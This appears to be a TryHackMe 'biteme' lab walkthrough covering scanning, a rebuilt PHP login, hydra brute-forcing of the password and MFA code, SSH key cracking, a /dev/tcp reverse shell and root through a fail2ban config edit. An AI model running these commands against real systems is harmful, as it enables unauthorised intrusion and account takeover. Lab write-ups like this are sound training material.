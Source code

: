 # biteme

**Room Link:** [https://tryhackme.com/room/biteme](https://tryhackme.com/room/biteme)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (749).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (753).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (752).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/console -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x phps
```

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (755).png" alt=""><figcaption></figcaption></figure>

## **Finding username**

**Kali**

```
echo 6a61736f6e5f746573745f6163636f756e74 | xxd -r -p
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Recreating login

I merged configs.phps,  functions.php and index.phps into a index.php file. Made some modifications so that it could run  when hosted locally without the mfa part of the code so then I can try to bruteforce the credentials.

**index.php**

```
 <?php
session_start();
$showError = false;
define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74'); 

function is_valid_user($user) {
    $user = bin2hex($user);
    return $user === LOGIN_USER;
}
// @fred let's talk about ways to make this more secure but still flexible
function is_valid_pwd($pwd) {
    $hash = md5($pwd);
    return substr($hash, -3) === '001';
} 


if (isset($_POST['user']) && isset($_POST['pwd'])) {
        if (is_valid_user($_POST['user']) && is_valid_pwd($_POST['pwd'])) {
            setcookie('user', $_POST['user'], 0, '/');
            setcookie('pwd', $_POST['pwd'], 0, '/');
            header('Location: mfa.php');
            exit();
        } else {
            $showError = true;
        }
  }  
?>

<!doctype html>
<html lang="en">
 <body class="text-center">
    <form action="index.php" method="post" class="form-signin" >
        <h1 class="h3 mb-3 font-weight-normal">Please sign in</h1>
        <input type="text" name="user" class="form-control" placeholder="Username" required>
        <input type="password" name="pwd" class="form-control" placeholder="Password" required>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
        <?php if ($showError): ?><p class="mt-3 mb-3 text-danger">Incorrect details</p><?php endif ?>
    </form>
  </body>
</html>

```

**Kali**

```
echo MFA > mfa.php
php -S 127.0.0.1:81
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

## Bruteforce

**Kali**

```
hydra -l jason_test_account -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 81 http-post-form "/index.php:user=^USER^&pwd=^PASS^:F=Incorrect details"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
Username: jason_test_account
Password: violet
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python -c "with open('output.txt', 'w') as file: [file.write(f'{str(i).zfill(4)}\n') for i in range(10000)]"
```

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install
cd ..

thc-hydra/hydra -l jason_test_account -P output.txt $VICTIM http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=hshqcs3n42r9qjs5b2850r9alt; user=jason_test_account; pwd=violet:F=Incorrect code" -T 64
```



<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (758).png" alt=""><figcaption></figcaption></figure>

## LFI

<figure><img src="../../.gitbook/assets/image (759).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (760).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh -i id_rsa jason@$VICTIM 
Password: 1a2b3c4d
```

<figure><img src="../../.gitbook/assets/image (761).png" alt=""><figcaption></figcaption></figure>



Lateral Movement

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (762).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo '#!/bin/bash' > shell.sh
echo 'sh -i >& /dev/tcp/$KALI/1337 0>&1' >> shell.sh
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
sudo -u fred ./shell.sh
```

<figure><img src="../../.gitbook/assets/image (763).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation&#x20;

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (764).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /etc/fail2ban/jail.conf
```

<figure><img src="../../.gitbook/assets/image (768).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -la /etc/fail2ban/action.d/iptables-multiport.conf
vi /etc/fail2ban/action.d/iptables-multiport.conf
```

<figure><img src="../../.gitbook/assets/image (765).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (770).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo /bin/systemctl restart fail2ban
```

Now we need to enter bad passwords until we've triggerd the ban action

**Kali**

```
ssh root@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (769).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
/bin/bash -p
whoami
```

<figure><img src="../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>



